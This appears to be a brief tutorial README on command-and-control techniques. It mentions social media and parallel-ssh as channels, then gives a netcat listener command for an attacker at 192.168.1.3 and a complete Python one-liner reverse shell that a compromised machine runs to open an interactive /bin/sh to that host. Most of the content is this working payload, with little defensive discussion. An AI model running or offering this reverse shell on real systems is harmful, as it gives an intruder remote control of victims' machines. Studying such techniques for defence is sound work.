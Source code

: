 # Command and Control
Attackers use available services on compromised machines to issue commands, which might include communication through open sockets, hide communication through posts to social media & blogging sites or git repositories.

Here, we illustrate command and control (C2) using twitter/imgur posts or simply parallel-ssh.

For a simple example using netcat and python sockets, an attacker on 192.168.1.3 listens on port 1234 with:
```
nc -l 192.168.1.3 1234
```

Now on the compromised machine, run the following:
# on attacked machine, have this running to open shell on attacking machine
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


